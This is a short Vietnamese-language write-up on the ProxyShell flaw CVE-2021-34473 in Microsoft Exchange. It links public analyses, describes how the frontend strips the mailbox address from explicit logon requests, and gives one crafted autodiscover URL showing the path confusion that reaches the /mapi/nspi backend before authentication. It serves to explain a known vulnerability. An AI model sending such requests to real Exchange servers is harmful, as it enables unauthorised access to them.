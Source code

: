 # ProxyShell

[https://www.zerodayinitiative.com/blog/2021/8/17/from-pwn2own-2021-a-new-attack-surface-on-microsoft-exchange-proxyshell](https://www.zerodayinitiative.com/blog/2021/8/17/from-pwn2own-2021-a-new-attack-surface-on-microsoft-exchange-proxyshell)

[https://blog.viettelcybersecurity.com/pwn2own-2021-microsoft-exchange-exploit-chain/](https://blog.viettelcybersecurity.com/pwn2own-2021-microsoft-exchange-exploit-chain/)

## **CVE-2021-34473 - Pre-auth Path Confusion**

Lỗ hổng xảy ra ở quá trình frontend (Client Access Service - CAS) tính toán backend URL.

Nếu HTTP request được phân loại thành Explicit Logon Request thì frontend sẽ normalize: xóa bỏ phần mailbox address trước khi đưa đến backend.

Nếu nhập

```
https://exchange/autodiscover/autodiscover.json?@foo.com/mapi/nspi?&Email=autodiscover/autodiscover.json%3f@foo.com
```

sẽ thành:

```
https://exchange/mapi/nspi?&Email=autodiscover/autodiscover.json%3f@foo.com
```
